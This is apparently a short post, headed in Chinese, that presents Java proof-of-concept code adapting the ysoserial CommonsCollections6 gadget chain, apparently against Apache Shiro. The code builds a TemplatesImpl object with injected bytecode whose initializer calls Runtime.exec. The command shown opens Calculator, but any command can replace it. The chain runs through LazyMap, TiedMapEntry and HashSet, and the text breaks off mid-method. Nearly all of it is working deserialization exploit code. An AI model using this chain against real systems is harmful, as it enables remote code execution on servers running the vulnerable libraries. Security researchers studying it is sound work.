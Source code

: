 ### POC1
这里改改CC6(ysoserial)
```java
package com.test;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import sun.misc.BASE64Decoder;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class TestLazyMap {
    public static void main(String[] args) throws Exception {
        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cls = pool.makeClass("Cat");
        String cmdlist = "open /System/Applications/Calculator.app";
        String cmd = "java.lang.Runtime.getRuntime().exec(\""+cmdlist+"\");";
        cls.makeClassInitializer().insertBefore(cmd);
        String randomName = "EvilCat" + System.nanoTime();
        cls.setName(randomName);
        cls.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cls.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field f = templates.getClass().getDeclaredField("_name");
        f.setAccessible(true);
        f.set(templates,"123");

        Field f1 = templates.getClass().getDeclaredField("_bytecodes");
        f1.setAccessible(true);
        f1.set(templates,targetByteCodes);

        Field f2 = templates.getClass().getDeclaredField("_class");
        f2.setAccessible(true);
        f2.set(templates,null);

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap,transformer);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, templates);
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f3 = null;
        try {
            f3 = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f3 = HashSet.class.getDeclaredField("backingMap");
        }
```